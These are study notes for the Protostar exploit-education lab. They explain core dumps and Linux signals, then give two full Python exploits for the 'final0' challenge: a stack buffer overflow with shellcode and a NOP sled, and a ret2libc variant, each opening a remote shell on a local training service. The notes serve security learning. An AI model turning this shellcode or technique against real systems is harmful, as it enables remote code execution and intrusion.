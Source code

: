 ### 0x1C Linux Signals and Core Dumps

- Introduces what are core dump files (files which are generated as a result of a program unexpectedly terminated and record the state of the memory during the crash)

- Introduces what are Linux Signals (some of which you already know such as SIGINT when you run CTRL-C on gdb)

- How to debug final0, final1, final2:

    `gdb /path/to/binary /path/to/core/file`

### 0x1D Final0 Remote Stack Buffer Overflow Exploit

- For this exercise, we are to perform a remote BoF exploit given tht the program uses the unsafe gets() function to receive input for the username.

- gets() and fgets() reads input till it receives the "\n" nextline character. Hence, when we are sending our input, we need to append all our inputs with "\n"

- Answer (using normal BoF):

    ```
    import socket
    import struct
    import time
    import telnetlib
    
    HOST="127.0.0.1"
    PORT=2995
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    
    eip = struct.pack("I", 0xbffffc60+10)
    nopsled = "\x90" * 100
    exploit     = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
    payload = "A" * 512 + "\x00"  + "bbbccccddddeeeeffff" + eip + nopsled + "gggghhhhh" + exploit
    s.send(payload + "\n")
    #s.send("id")
    #data = s.recv(2048)
    #print "Received: ", data
    
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
    ```

- Answer (using ret2libc)

    ```
    import socket
    import struct
    import time
    import telnetlib
    
    HOST="127.0.0.1"
    PORT=2995
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    
    _SYSTEM = struct.pack("I", 0xb7ecffb0)
    _EXIT   = struct.pack("I", 0xb7ec60c0)
    _BIN_SH = struct.pack("I", 0xb7fb63bf)
    _EXECVE = struct.pack("I", 0x08048c0c)
    
    # payload = "A" * 512 + "\x00" + "aaabbbbccccddddeeee" + _SYSTEM + _EXIT + _BIN_SH # system() ret2libc
    payload = "A" * 512 + "\x00" + "aaabbbbccccddddeeee" + _EXECVE + _EXIT + _BIN_SH + "\x00" * 4 + "\x00" * 4 # execve() ret2libc
    s.send(payload + "\n")
    
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
    ```

    - For ret2libc using execve, you will need to find the address of the execve function using `(gdb) info functions @plt` and you will have to add 2 * `"\x00" * 4` to represent the gid and uid parameter when running execve("/bin/sh", 0, 0) (see documentation/manual for more information)


### References

https://wiki.archlinux.org/title/Core_dump

https://exploit.education/protostar/

https://www.ibm.com/docs/en/zos/2.2.0?topic=functions-gets-read-string 

https://www.educative.io/answers/how-to-use-the-fgets-function-in-c

https://man7.org/linux/man-pages/man2/read.2.html

https://www.ibm.com/docs/en/i/7.4?topic=functions-fread-read-items

https://www.ibm.com/docs/en/zos/2.2.0?topic=functions-fgets-read-string-from-stream



